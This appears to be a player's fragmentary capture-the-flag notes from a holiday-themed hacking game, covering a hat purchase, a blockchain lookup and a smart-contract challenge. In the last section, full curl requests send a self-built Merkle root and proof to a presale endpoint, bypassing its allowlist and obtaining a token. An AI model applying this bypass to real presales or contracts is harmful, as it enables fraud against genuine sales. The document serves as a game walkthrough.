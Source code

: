 
While at entrance, get chest by going right into wall. up and a quick left then wiggle up.

# Reciept to buy hat
```
![](https://prod-hats-vending.kringle.co.in/hats/viking_purple.png)

To purchase this hat you must:  

1.  Use a KTM to pre-approve a 10 KC transaction to the wallet address: 0x94201741f1e155a9e3666A883989EC00091abe8e
2.  Return to this kiosk and use Hat ID: 289 to complete your purchase.

  

**_Copy this information down - you need it!_**
```



# Blockchain Divination

![Pasted image 20221211132510](https://user-images.githubusercontent.com/50979196/209568894-36ba5bcd-3010-411d-afd8-2c1fe4e9986f.png)

![Pasted image 20221211132753](https://user-images.githubusercontent.com/50979196/209568902-c37d8d55-ba44-4015-b3f8-3245a8a63e42.png)

![Pasted image 20221211133415](https://user-images.githubusercontent.com/50979196/209568932-745d0e2c-9f7f-4a92-8a69-f596b4d5d006.png)

![Pasted image 20221211133402](https://user-images.githubusercontent.com/50979196/209568955-09eaacbc-4edd-4929-ab09-9a4b440bf20a.png)
```

**0xc27A2D3DE339Ce353c0eFBa32e948a88F1C86554**
```
# Exploit a Smart Contract

![Pasted image 20221211140359](https://user-images.githubusercontent.com/50979196/209568977-27d357b8-98bd-43bd-a453-cad950040f5d.png)

![Pasted image 20221212073421](https://user-images.githubusercontent.com/50979196/209568987-dbb604b5-771f-4c0c-825f-622709832e37.png)

https://github.com/QPetabyte/Merkle_Trees

![Pasted image 20221211140421](https://user-images.githubusercontent.com/50979196/209569029-451caae2-0b55-4a9d-b793-ac7e89b376c4.png)

https://decentralizedthoughts.github.io/2020-12-22-what-is-a-merkle-tree/
![Pasted image 20221211143351](https://user-images.githubusercontent.com/50979196/209569046-32189ede-e25e-4cc3-b8c5-bd1af936ad1f.png)






![Pasted image 20221216100645](https://user-images.githubusercontent.com/50979196/209569078-03f359bd-20d0-4b1b-b1e0-433b0e71f15e.png)

```
root='0x52cfdfdcba8efebabd9ecc2c60e6f482ab30bdc6acf8f9bd0600de83701e15f1'
```
![Pasted image 20221216101145](https://user-images.githubusercontent.com/50979196/209569091-102899a9-dd76-4af2-ba1c-05d8c8aa6f56.png)


using 


![Pasted image 20221219142708](https://user-images.githubusercontent.com/50979196/209569103-64cd1ca0-6684-4a8b-9e76-47cb61525108.png)

using curl to enter this information i was able to buy a spoc but only with the wallet id 0x33
![Pasted image 20221219150620](https://user-images.githubusercontent.com/50979196/209569137-e974c7b9-7f73-4760-9906-c73e18d35611.png)


```
curl 'https://boredsporcrowboatsociety.com/cgi-bin/presale'   -H 'authority: boredsporcrowboatsociety.com'   -H 'accept: */*'   -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8'   -H 'content-type: application/json'   -H 'origin: https://boredsporcrowboatsociety.com'   -H 'referer: https://boredsporcrowboatsociety.com/presale.html?&challenge=bsrs&username=ViviG&id=544e5161-292c-404a-8bc5-0e8118fdf23b&area=level5&location=13,15&tokens='   -H 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"'   -H 'sec-ch-ua-mobile: ?0'   -H 'sec-ch-ua-platform: "Linux"'   -H 'sec-fetch-dest: empty'   -H 'sec-fetch-mode: cors'   -H 'sec-fetch-site: same-origin'   -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'   --data-raw '{"WalletID":"0x3333333333333333333333333333333333333333","Root":"0x92b50ba94b4eddae31256603c1e445747eb4da7bbcce500a1c711ebeef99757e","Proof":"0x2ab0a4443bbea3fbe4d0e1503d11ff1367842fb0c8b28a5c8550f27599a40751, 0xe53833745f812dbbffd118a573b4b380aae6b82afd4839d67dd7a2f809a5554c, 0xab642276d45d87c4c538fea27c78e9fae2b6f5d3505d3f108d480897899b5993","Validate":"true","Session":"544e5161-292c-404a-8bc5-0e8118fdf23b"}'   --compressed


```
plug in my wallet to the merkle tree code
![Pasted image 20221219184638](https://user-images.githubusercontent.com/50979196/209569159-908e9c48-7ce6-4939-a5cf-7ffbadf98ecd.png)

```
curl 'https://boredsporcrowboatsociety.com/cgi-bin/presale'   -H 'authority: boredsporcrowboatsociety.com'   -H 'accept: */*'   -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8'   -H 'content-type: application/json'   -H 'origin: https://boredsporcrowboatsociety.com'   -H 'referer: https://boredsporcrowboatsociety.com/presale.html?&challenge=bsrs&username=ViviG&id=544e5161-292c-404a-8bc5-0e8118fdf23b&area=level5&location=13,15&tokens='   -H 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"'   -H 'sec-ch-ua-mobile: ?0'   -H 'sec-ch-ua-platform: "Linux"'   -H 'sec-fetch-dest: empty'   -H 'sec-fetch-mode: cors'   -H 'sec-fetch-site: same-origin'   -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'   --data-raw '{"WalletID":"0xbD6b11BFF1fE2CC643Bc8104519081C17F4c8CAa","Root":"0x72f33507449b833196424fd867dfb5f8412bffd962cd45dabb71d16bce79f4bf","Proof":"0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a","Validate":"true","Session":"544e5161-292c-404a-8bc5-0e8118fdf23b"}'   --compressed


```

sporc wallet = 0xe8fC6f6a76BE243122E3d01A1c544F87f1264d3a

```
curl 'https://boredsporcrowboatsociety.com/cgi-bin/presale'   -H 'authority: boredsporcrowboatsociety.com'   -H 'accept: */*'   -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8'   -H 'content-type: application/json'   -H 'origin: https://boredsporcrowboatsociety.com'   -H 'referer: https://boredsporcrowboatsociety.com/presale.html?&challenge=bsrs&username=ViviG&id=544e5161-292c-404a-8bc5-0e8118fdf23b&area=level5&location=13,15&tokens='   -H 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"'   -H 'sec-ch-ua-mobile: ?0'   -H 'sec-ch-ua-platform: "Linux"'   -H 'sec-fetch-dest: empty'   -H 'sec-fetch-mode: cors'   -H 'sec-fetch-site: same-origin'   -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'   --data-raw '{"WalletID":"0xbD6b11BFF1fE2CC643Bc8104519081C17F4c8CAa","Root":"0x72f33507449b833196424fd867dfb5f8412bffd962cd45dabb71d16bce79f4bf","Proof":"0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a","Validate":"false","Session":"544e5161-292c-404a-8bc5-0e8118fdf23b"}'   --compressed
{"Response": "Success! You are now the proud owner of BSRS Token #000256. You can find more information at https://boredsporcrowboatsociety.com/TOKENS/BSRS256, or check it out in the gallery!<br>Transaction: 0x829fab887c9706039279252cfc5108b806ab69da97d3a5612854fea031be7249, Block: 74609<br><br>Remember: Just like we planned, tell everyone you know to <u><em>BUY A BoredSporc</em></u>.<br>When general sales start, and the humans start buying them up, the prices will skyrocket, and we all sell at once!<br><br>The market will tank, but we'll all be rich!!!"}
```

